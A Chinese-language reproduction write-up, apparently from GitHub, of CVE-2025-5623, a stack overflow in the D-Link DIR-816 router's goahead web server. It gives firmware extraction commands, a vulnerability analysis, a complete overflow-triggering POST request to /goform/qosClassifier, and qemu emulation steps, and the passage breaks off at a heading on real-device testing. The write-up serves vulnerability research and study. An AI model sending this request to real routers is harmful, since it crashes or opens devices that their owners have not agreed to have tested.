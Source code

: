 # CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```

![image](.pictures/CVE-2025-5623-1-1.png)

这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )

![image](.pictures/CVE-2025-5623-1-2.png)

( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )

![image](.pictures/CVE-2025-5623-1-3.png)

( `isIpNetmaskValid` 中，漏洞片段。 )

![image](.pictures/CVE-2025-5623-1-4.png)

也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。

![image](.pictures/CVE-2025-5623-1-5.png)

得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。

![image](.pictures/CVE-2025-5623-1-6.png)

于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现

我们使用 qemu user 进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。

![image](.pictures/CVE-2025-5623-2-1.png)

## 真机漏洞复现和调试